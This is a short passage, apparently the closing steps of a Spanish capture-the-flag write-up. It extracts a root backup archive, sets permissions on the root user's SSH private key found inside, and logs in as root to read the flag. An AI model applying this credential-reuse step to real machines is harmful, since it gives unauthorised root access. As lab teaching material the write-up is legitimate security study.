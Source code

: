 Lo descomprimimos...

```shell
tar -xzvf root.tar.gz
```

Y dentro de la carpeta `root` nos vamos al `.ssh`...

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa root@<IP>
```

Ya seriamos root con una shell en ssh y podriamos leer la flag.
